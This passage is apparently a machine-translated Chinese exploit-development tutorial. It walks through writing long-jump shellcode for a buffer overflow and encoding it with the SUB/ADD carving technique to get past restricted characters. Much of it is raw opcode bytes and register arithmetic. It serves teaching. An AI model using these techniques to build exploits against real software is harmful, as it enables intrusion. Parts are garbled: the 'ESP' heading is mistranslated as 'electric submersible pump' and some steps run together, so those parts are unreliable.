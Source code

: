 ![](img/e0c3672a2ae4bbd886bf5a5c975e6de4.png)

电潜泵校准—长 JMP

接下来，我们要放置我们的长 JMP 外壳代码。由于我们在当前位置上方有大约 3000+的空白空间，所以我们想将指针重定向到“A”s 的最开始。我们将使用`PUSH ESP` → `POP EBX` → `subtract necessary bytes` → `CALL EBX`。

```
**### Long JMP (Shellcode)**\x54                      # PUSH ESP
\x5B                      # POP EBX
\x81\xEB\xB9\x0D\x00\x00  # SUB EBX, 0xDB9 
                          # (0187FFC1 - 0187F208 = 0xDB9)
\xFF\xD3                  # CALL EBX
```

![](img/6674a58249ddeb1ea6bb2a11ac7d6bf1.png)

长 JMP 外壳代码

正如我们所看到的，前两个字节`\x54\x5B`是允许的字符，但是其余的需要被编码。这次我们将使用 SUB/ADD 编码技术来绕过受限字符集。

```
1) Value to Encode
   \x81\xEB\xB9\x0D *-(big-endian)->* 0DB9EB81
   \x00\x00\xFF\xD3 *-(big-endian)->* d3ff00002) SUB Encoding (d3ff0000)
   0 - d3ff0000 = 0xFFFFFFFF- d3ff0000 + 1 = 2C010000
   0x12C010000
   sub eax, 7F7F7F7F = AC818081
   sub eax, 7F7F7F7F = 2D020102
   sub eax, 2D020102 = 00000000
   push eax3) ADD Encoding (0DB9EB81)
   add eax, 07657641 = 07657641
   add eax, 06547540 = 0db9eb81
   push eax**### Encoded Long JMP** \x54                      # PUSH ESP
\x5B                      # POP EBX
\x25\x4A\x4D\x4E\x55      # Zero out EAX
\x25\x35\x32\x31\x2A      #
\x2D\x7F\x7F\x7F\x7F      # Carving \x00\x00\xFF\xD3
\x2D\x7F\x7F\x7F\x7F      #
\x2D\x02\x01\x02\x2D      #
\x50                      # PUSH EAX
\x25\x4A\x4D\x4E\x55      # Zero out EAX
\x25\x35\x32\x31\x2A      # 
\x05\x41\x76\x65\x07      # Carving \x81\xEB\xB9\x0D
\x05\x40\x75\x54\x06      #
\x50                      # PUSH EAX
```
